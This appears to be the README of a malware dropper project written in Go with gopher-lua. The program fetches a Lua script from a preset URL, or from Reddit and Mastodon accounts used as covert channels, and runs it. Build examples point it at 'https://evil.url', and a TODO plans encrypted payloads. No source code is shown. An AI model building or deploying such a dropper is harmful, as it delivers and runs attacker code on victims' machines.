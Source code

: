 # Glua Dropper
## A dropper written in gopher-lua

The programs downloads a gopher-lua script from a preset url and evals it. Can download and run scripts from reddit.com and mastodon.social

### Building
Requires go-bindata

Build with ```./build.sh [site] [endPoint]```

#### Examples 

```./build.sh mastodon 0000000```

```./build.sh reddit accountName```

```./build.sh plaintext https://evil.url```

The reddit dropper takes an account name as the 2nd opt, mastodon takes an account ID 


### Requirements

The following libs are required 

"github.com/cjoudrey/gluahttp"

"github.com/nubix-io/gluasocket"

"github.com/otm/gluash"

"github.com/yuin/gopher-lua"

"layeh.com/gopher-json"

### TODO

#### Encryption
Add support for decypting evals using keys fetched from a url/reddit account 
Currently the crypto-lib only supports aes-cbc. Support for RSA should be added